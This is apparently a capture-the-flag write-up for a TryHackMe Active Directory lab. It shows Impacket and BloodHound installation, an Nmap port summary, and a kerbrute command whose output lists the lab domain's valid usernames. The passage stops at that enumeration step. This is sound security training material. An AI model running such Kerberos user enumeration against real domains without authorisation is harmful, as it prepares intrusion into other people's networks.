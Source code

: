 # Attacktive Directory

- MachineIP: `10.10.209.16`
- OS       : `Windows`
- Exploit  : `AS_REP Roasting, DCSync`
---

> Know basics of kerberos authentication from [here](https://github.com/cyberwr3nch/writeups/tree/main/thm/attacking%20kerberos) before continuing

### Impackets installation

- Installing Impackets

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

- Installing Bloodhound and neo4j (already explained in attacking kerberos writeup)

```bash
sudo apt install bloodhound neo4j
```

### Attacking Active Directory

- After setting up the required tools for attacking active directory lets start attacking it
- Nmap recon, 53`(DNS)`,80`(http)`,88`(kerberos)`,135`(msrpc)`,139`(netbios)`,389 `(LDAP)`,445`(samba)`,464`(kerberos)`,593`(http-rpc)`,636`(secure LDAP)`,3268`(global catalogue LDAP)`,3269`(gloobal catalogue Secure LDAP)`,3389`(ms-wbt-server)`,5985`(wsman)`,9389`(adws)`,47001`(winrm)`
- Nmap outputs the computer name and domin name of the active directory.
- Lets enumerate the valid users in the domain using kerbrute

```bash
# -d = domain
# --dc = domain controller
# -t = threads
# -o = output file
┌──(kali㉿kali)-[~/writeups/thm/Attacktive Directory]
└─$ kerbrute userenum -d spookysec.local --dc 10.10.209.16 -t 50 userlist.txt -o kerbrute.out

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 05/06/21 - Ronnie Flathers @ropnop

2021/05/06 05:26:07 >  Using KDC(s):
2021/05/06 05:26:07 >   10.10.209.16:88

2021/05/06 05:26:08 >  [+] VALID USERNAME:       james@spookysec.local
2021/05/06 05:26:08 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2021/05/06 05:26:09 >  [+] VALID USERNAME:       James@spookysec.local
2021/05/06 05:26:10 >  [+] VALID USERNAME:       robin@spookysec.local
2021/05/06 05:26:15 >  [+] VALID USERNAME:       darkstar@spookysec.local
2021/05/06 05:26:17 >  [+] VALID USERNAME:       administrator@spookysec.local
2021/05/06 05:26:22 >  [+] VALID USERNAME:       backup@spookysec.local
2021/05/06 05:26:25 >  [+] VALID USERNAME:       paradox@spookysec.local
2021/05/06 05:26:42 >  [+] VALID USERNAME:       JAMES@spookysec.local
2021/05/06 05:26:48 >  [+] VALID USERNAME:       Robin@spookysec.local
2021/05/06 05:27:20 >  [+] VALID USERNAME:       Administrator@spookysec.local
2021/05/06 05:28:30 >  [+] VALID USERNAME:       Darkstar@spookysec.local
```